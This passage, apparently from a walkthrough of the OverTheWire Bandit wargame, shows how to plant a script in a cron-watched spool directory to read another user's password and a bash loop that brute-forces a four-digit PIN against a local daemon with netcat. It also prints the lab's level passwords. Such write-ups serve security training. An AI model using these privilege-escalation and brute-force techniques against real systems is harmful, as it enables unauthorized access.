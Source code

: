 5. create the script file
```bash
nano script.sh
```
Once the editor opens copy the script we have just written than save and exit.

6. change the script file permissions to make it executable
```bash
chmod 777 script.sh
```

7. copy the script to the directory we found before
 ```bash
cp script.sh /var/spool/bandit24/
```

Ok now everything is set, since that cron job runs every 60 seconds, just wait one minute.

Now open the file containing the password
```bash
cat /tmp/exercise/password
```

And here you have it: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

​<br/>
---

### LEVEL 24 --> 25
Login with `ssh bandit24@bandit.labs.overthewire.org -p 2220`  
Insert the password we have found in the previous level and let's start.

In this level, to get the password we have to provide to the daemon listening to port 30002 the current level password and a pin code.

The problem is that we don't know the pincode, BUT we have an hint, we can perform a Brute Force attack that means trying all the combinations for a 4 digit pincode, that are 10000.

To do so we need a file with all those combinations, here we have 3 choices:
1. Find a numberlist online
2. Using an online tool to generate the combinations and than copy them on a file
3.  Create a simple script that will do the work

Here i will discuss option 3 as the first 2 don't really need any explaination.

So, we can create a bash script containing a loop that will print all the combinations and associate them to the level password, than will save the output to a file.
To conclude we can also add a command to open that file and send the combinations to the deamon, with netcat, and print in a new file the results, we can also add a line that will filter all the wrong combinations out and give us the right one.
it will look like this:
```bash
#!/bin/bash 

#now the loop
for n in {0000..9999}
do
	 echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $n >> combinations.txt
done

#send the file to the daemon and strip the wrong results, finally open the file with the password for level 25

cat combinations.txt | nc localhost 30002 > results.txt
cat results.txt | grep bandit25 > final.txt
cat final.txt
```
